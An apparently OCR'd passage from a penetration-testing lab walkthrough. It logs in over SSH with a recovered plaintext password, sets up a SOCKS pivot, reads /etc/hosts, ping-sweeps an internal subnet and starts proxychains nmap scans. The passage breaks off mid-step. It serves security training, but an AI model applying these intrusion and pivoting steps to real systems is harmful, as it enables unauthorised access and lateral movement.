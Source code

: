         Gives us username as user2 and the password as EaglesIsARE78.

Step 9.  Attempt initial access using the username from step 8 and the password                                                   

#### Attempt Exploitation || Gain Initial Access ####

Step 1. Since tcp and http were open and we've looked at the http section, lets now look at the tcp section. 

Step 2. `ssh user2@10.50.29.144 -D 9050` let's dynamically connect to this user 

other -> type `bash`

If you forgot something in htlm you go to `cd /var/www/html/`

Step 3. logs us in... let's see if we can find additional targets

user2@PublicFacingWebsite:/var/www/html$ `ls -la` to see all the files 

    -rw-r--r-- 1 root root   215 Dec 30 02:01 logout.php -> means this is a file
    drwxr-xr-x 2 root root  4096 Jan 16 17:41 scripts -> means this is a directory

Once you are able to get in, enumerate the file more. Look for hidden files!

#### Find Additional Targets ####

Step 1. `cat /etc/hosts` gives us an additional host

    127.0.0.1 localhost

    # The following lines are desirable for IPv6 capable hosts
    ::1 ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
    192.168.28.181 WebApp

Step 2. Looks like we have a new host called WebApp at 192.168.28.181

#### Pivot to Found Targets ####

Step 1. type bash in the window after login to get to the bash terminal and then run your for loop to do the ping sweep. For loop to be run `for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done`

    $ bash
    user2@PublicFacingWebsite:/$ for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
    64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=1.13 ms
    64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=0.550 ms
    64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.067 ms

Step 2. We have three addresses, 192.168.28.172, 192.168.28.181 and 192.168.28.190

Step 3. Check 192.168.28.172. student@lin-ops:~$ `proxychains nmap 192.168.28.172` shows that we have:
